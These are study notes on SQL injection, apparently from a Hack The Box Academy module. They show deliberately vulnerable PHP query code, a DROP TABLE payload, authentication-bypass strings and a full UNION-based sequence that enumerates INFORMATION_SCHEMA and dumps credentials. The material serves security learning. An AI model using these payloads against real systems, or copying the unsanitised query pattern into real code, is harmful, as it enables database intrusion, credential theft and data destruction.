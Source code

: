 # SQL-Injection
https://academy.hackthebox.com/module/33/section/193

- Connecting to database through php
```php
$conn = new mysqli("localhost", "root", "password", "users");
$query = "select * from logins";
$result = conn->query($query);

while($row = $result->fetch_assoc()) {
	echo $row["name"]."<br>";
}
```

- User input from page to query users
```php
$searchInput = $_POST['finduser'];
$query = "select * from logins where username like '%$searchInput'";
$result = $conn->query($query);

while($row = $result->fetch_assoc()) {
	echo $row["name"]."<br>";
}
```

It's very obvious this program has no input sanitization.
We are able to terminate `$searchInput` similar to XSS
and will be able to do whatever we want:

```sql
'%1'; DROP TABLE users;' --defacing the database

::executed as: select * from logins where username like '%1'; DROP TABLE users;'
```

# Subverting Query Logic

- Normal login data-query
```sql
SELECT * FROM logins WHERE username='admin' AND password='p@ssw0rd123!';
```

## SQLi "Bad Characters"

- Testing whether the form is vulnerable to SQLi, appending characters to a username
and checking for any errors or changes in page behavior.
```
Payload 	URL Encoded
-------		-----------
'			%27
"			%22
#			%23
;			%3B
)			%29
```

Testing with a single quote (') we can check for odd-numbered syntax errors.
In this case, we can either comment out the rest of the query or simply use 
an even number of quotes.

> OR based injection `' OR 1=1 --` commenting the end of line, in order to cancel
the rest of the logic.

## A more complex example

```sql
SELECT * FROM logins WHERE (username='admin' AND id > 1) AND password='p@ssw0rd123!';
```

The login will fail because `admin's id` is 1 
and conditional statement says `id must be greater than 1`.

We can close the input and use comments 
in order to select only the first half of the login logic.

```sql
SELECT * FROM logins WHERE (username='admin'--' AND id > 1) AND password='p@ssw0rd123!'
[*]SYNTAX-ERROR!!

```

Trying with:

```sql
SELECT * FROM logins WHERE (username='admin')--' AND id > 1) AND password='p@ssw0rd123
[+]Login Successful.
```

## UNION Clause

The Union Clause is used to combine results from multiple SELECT statements.

```sql
SELECT * FROM ports;
SELECT * FROM ships;
SELECT * FROM ports UNION SELECT * FROM ships;

-- Note that data types of selected columns in all positions should match.
-- Also note that they must have the same number of columns.

-- Otherwise:
ERROR 1222 (21000): The used SELECT statements have a different number of columns
```

## Even Columns

Once we have two queries that match columns and types, we can use the UNION operator
to extract data from other tables and databases.

```sql
SELECT * FROM products WHERE product_id = 'user_input';
SELECT * FROM products WHERE product_id = '1' UNION SELECT username, password FROM passwords--'
```

## Uneven Columns

We can use junk data.
The `products` table has three columns,

If we only wanted to return one column we have to:
```sql
SELECT * FROM products WHERE product_id = '1' UNION SELECT username,2,3 FROM passwords--'
```

# Union Injection

- Fuzz for bad characters (SQLi Enumeration)
- Detect number of columns:

	`' ORDER BY 5--`: If fails, it means we have 4 columns.
	`' UNION SELECT 1,2,3,4--` If success, it means we have 4 columns.

- Location of Injection
- Testing Parameters: `UNION SELECT 1,@@version,3,4--`: Success print for #2.
- Fingerprinting DBMS, confirming MySQL:

	`SELECT @@version` When full-query output. Works in: MSSQL
	`SELECT POW(1,1)` When only numeric output. Works in: MySQL
	`SELECT SLEEP(5)` When Blind, Only works on MySQL

## INFORMATION_SCHEMA Database

In order to pull data from tables using UNION SELECT we need to properly form
SELECT queries. We need the following information:

- List of databases
- List of tables within each database
- List of columns within each table

In the Union Injection Section, we implied that we have 4 columns to work with
and that column #2 will print out for us.

```sql
SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA; --List all databases

-- Here, in practice with our theoretical database containing 3 columns:
UNION SELECT 1,schema_name,3,4 FROM INFORMATION_SCHEMA.SCHEMATA-- List all dbs
UNION SELECT 1,database(),2,3-- Which db does the running application use?

```
Once we know the db our application is using, we need to get a list of tables.

```sql
UNION SELECT 1, TABLE_NAME, TABLE_SCHEMA, 4 
FROM INFORMATION_SCHEMA.TABLES 
WHERE table_schema='our_desired_table'--
```

We now have to find the column names in the table.

```sql
UNION SELECT 1, COLUMN_NAME, TABLE_NAME, TABLE_SCHEMA
FROM INFORMATION_SCHEMA.COLUMNS
WHERE table_name='credentials_table'--
```

Once we have the column names, it's a wrap ~

```sql
UNION SELECT 1, username, password, 4 FROM our_desired_table.credentials_table--

Print:
username	password
--------	--------
admin		o_shit...
```
